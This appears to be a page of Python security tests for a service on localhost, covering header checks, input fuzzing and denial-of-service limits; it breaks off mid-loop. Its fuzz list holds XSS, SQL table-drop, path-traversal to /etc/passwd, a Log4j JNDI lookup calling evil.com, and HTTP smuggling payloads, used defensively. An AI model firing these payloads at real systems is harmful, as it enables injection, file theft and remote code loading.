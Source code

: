 ### Penetration Testing Scripts

```python
def test_security_headers():
    """Test security headers are present"""
    response = requests.get('https://localhost:5555/', verify=False)
    
    required_headers = {
        'X-Content-Type-Options': 'nosniff',
        'X-Frame-Options': 'DENY',
        'X-XSS-Protection': '1; mode=block',
        'Strict-Transport-Security': 'max-age=31536000'
    }
    
    for header, expected_value in required_headers.items():
        assert header in response.headers
        assert expected_value in response.headers[header]

def test_input_fuzzing():
    """Fuzz test with various malicious inputs"""
    malicious_inputs = [
        '<script>alert("xss")</script>',
        '"; DROP TABLE users; --',
        '../../etc/passwd',
        '\x00\x01\x02\x03',  # Binary data
        'A' * 10000,  # Very long input
        '${jndi:ldap://evil.com/x}',  # Log4j style
        '\n\r\nHTTP/1.1 200 OK\r\n\r\n<html>...',  # HTTP smuggling
    ]
    
    for malicious_input in malicious_inputs:
        response = requests.post('https://localhost:5555/generate',
            data={'CN': malicious_input},
            verify=False
        )
        
        # Should be rejected
        assert response.status_code in [400, 422]
        
        # Should not contain the malicious input in response
        assert malicious_input not in response.text

def test_dos_protection():
    """Test denial of service protection"""
    # Test large request
    large_data = {'CN': 'A' * 1000000}  # 1MB
    response = requests.post('https://localhost:5555/generate',
        data=large_data,
        verify=False
    )
    assert response.status_code == 413  # Request entity too large
    
    # Test many concurrent requests
    import threading
    
    def make_request():
        requests.post('https://localhost:5555/generate',
            data={'CN': 'test.com'},
            verify=False
        )
    
    threads = [threading.Thread(target=make_request) for _ in range(50)]
    for thread in threads:
```